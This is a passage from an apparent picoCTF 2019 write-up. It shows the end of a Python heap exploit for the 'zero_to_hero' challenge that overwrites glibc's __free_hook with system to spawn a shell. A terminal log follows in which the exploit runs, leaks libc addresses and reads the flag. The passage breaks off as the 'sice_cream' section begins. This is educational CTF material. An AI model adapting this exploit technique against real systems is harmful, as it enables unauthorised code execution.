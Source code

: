 ```python

# Allocates chunk B again
add(0xf0, 'E'*0xf0)

# Allocates chunk on __free_hook, change it to system
add(0xf0, p64(system) + 'F'*0xe8)

# Call free on the chunk with /bin/sh\x00 in it
# This will then call free('/bin/sh\x00') which calls system('/bin/sh\x00')
free(0)

p.interactive()
```
```sh
vagrant@ubuntu-disco:/ctf/pwn-and-re-challenges/picoctf-2019/zero_to_hero$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-re-challenges/picoctf-2019/zero_to_hero/zero_to_hero'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  './'
[*] '/ctf/pwn-and-re-challenges/picoctf-2019/zero_to_hero/libc-2.29.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2019shell1.picoctf.com on port 49929: Done
[*] Libc base: 0x7f0d11c61000
[*] system: 0x7f0d11cb3fd0
[*] __free_hook: 0x7f0d11e485a8
[*] Switching to interactive mode
$ ls
flag.txt
ld-2.29.so
libc.so.6
xinet_startup.sh
zero_to_hero
$ cat flag.txt
picoCTF{i_th0ught_2.29_f1x3d_d0ubl3_fr33?_fjqlovui}
```

# sice_cream

The solution that I came up with (including some help :P) for this challenge is absolutely mind blowing. I'm still not sure if it's the intended solution.

There is also what I think is the official solution (`NotDeGhost` from redpwn told me about it after I solved it), so I will showcase that at the end of this writeup as well.
